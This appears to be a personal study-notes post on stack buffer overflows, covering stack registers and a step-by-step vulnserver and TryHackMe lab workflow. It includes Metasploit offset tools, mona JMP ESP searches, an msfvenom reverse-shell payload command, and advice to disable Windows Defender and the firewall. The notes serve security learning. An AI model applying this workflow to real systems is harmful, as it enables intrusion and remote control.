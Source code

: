 ```yaml
---
title: Buffer over flow
author: Yuchao
date: 2022-03-27 11:33:00 +0800
categories: [sec]
tags: [bof, assembly, thm]
math: true
mermaid: true
---
```


# Learn from Video

#### understand stack MOST IMPORTANT !!!

What happens when you call a procedure?
- https://www.youtube.com/watch?v=RU5vUIl1vRs

Assembly Programming Assembly Function Stack Frame Explained
- https://www.youtube.com/watch?v=vcfQVwtoyHY

---

```
{low}
ESP points to the top of the stack, at lower memory location.
{buffer}
EBP points to higher memory address, at the bottom of the stack, 
EIP holds the address of next instruction to be executed.
{high}
```

```
(one function on stack)
lower address

at ESP value (Extended Stack Pointer)
this Buffer Space
at EBP value (Extended Base Pointer)
at EIP value (Extended Instruction Pointer) / Return Address
shellcode start point

higher address
```

The process:
1. ESP hit command to get input, and the input change the stack value. EBP right, know next is EIP, EIP right. Value in stack wrong.
2. when ESP hit where EBP saves(on stack), the EBP value will change(or not). EBP wrong, EIP right.
3. when ESP hit where EIP saves(on stack), the EIP value will change.(to an address with value "JMP ESP")
4. then ESP value increase. (so its meaningfull when we jump back, to the payloads.)
5. EIP do JMP ESP (JMP back to where the ESP is now pointing.)
6. EIP do the payload commands line by line.

```

(one program in memory)
(EIP start from TEXT, when meet a function, point to STACK return address))

lower address
TEXT
DATA
HEAP
STACK
higher address
```

RET instruction:
- This will take a dword from the top of the stack at esp and load it to eip,  
- while also adding 4 to esp's value (to move it up to the next entry)

---

Another way(not JMP ESP):
- PUSH ESP, RET
- https://www.rcesecurity.com/2011/12/buffer-overflow-exploitation-jump-to-shellcode-via-push-espret/

---


Cyber Mentor BOF video and his recommendation
- https://www.youtube.com/watch?v=ncBblM920jw
- https://github.com/johnjhacking/Buffer-Overflow-Guide
- https://tcm-sec.com/buffer-overflows-made-easy/

---

Practice by vulnserver and Immunity Debugger

vulnserver
- https://thegreycorner.com/vulnserver.html
if Windows block the download, turn off Windows Defender.

Immunity Debugger
- https://www.immunityinc.com/products/debugger/

---

Cyber Mentor BOF process:
1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shellcode
8. Root

```
nc -nv 192.168.1.90 9999
connect to vuln server
command, STATS [stat_value]
```

### 1. Spiking

generic_send_tcp
``` apt-get install spike ```
- ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
- ./generic_send_tcp 192.168.1.100 701 something.spk 0 0

### 2. Fuzzing
Send different characters try to break the program to find the offset

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
```

### 3. Finding the Offset
find EIP at 2003

### 4. Overwriting the EIP

- EIP is 4 bytes. (32-bits)
- Shellcode = "A" * 2003 + "B" * 4
- check if B start at EIP.
- HEX 41: A.   HEX 42: B.
- EIP = "42424242" will be successful.

### 5. Finding Bad Characters

- google: "badchars"
- !mona bytearray -cpb "\x00"

### 6. Finding the Right Module


##### Find DLL without memory protection.
- search mona.py, save to /Immunity Debugger/ PyCommands.

##### Get JMP ESP shell code
``` bash
# locate nasm_shell
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
──(root💀kali)-[/home/kali]
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
Calling `DidYouMean::SPELL_CHECKERS.merge!(error_name => spell_checker)' has been deprecated. Please call `DidYouMean.correct_error(error_name, spell_checker)' instead.
nasm > JMP ESP
00000000  FFE4              jmp esp
```

##### in mona, search JMP ESP location
```
!mona modules
!mona find -s \xff\xe4" -m essfunc.dll
```
anotherway: !mona jmp -r ESP -m "essfunc.dll"
this module has no memory protections

### 7. Generating Shellcode

msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={Port} EXITFUNC=thread -f c -a x86 -b "\00"

in python3:
put 'b' before shell code, means byte encode.

---

# THM Brain storm box

```
nmap -T4 -p- -Pn 10.10.131.179
get: 21, 3389, 9999

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

ftp 10.10.131.179
name: anonymous

ftp> ls
chatserver.exe
essfun.dll

ftp> prompt OFF
ftp> binary
for safe transfer, byte may crash

ftp> mget *

ftp> bye
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

in Windows
defender off
firewall off

\r = CR (Carriage Return) → Used as a new line character in Mac OS before X
\n = LF (Line Feed) → Used as a new line character in Unix/Mac OS X
\r\n = CR + LF → Used as a new line character in Windows


```
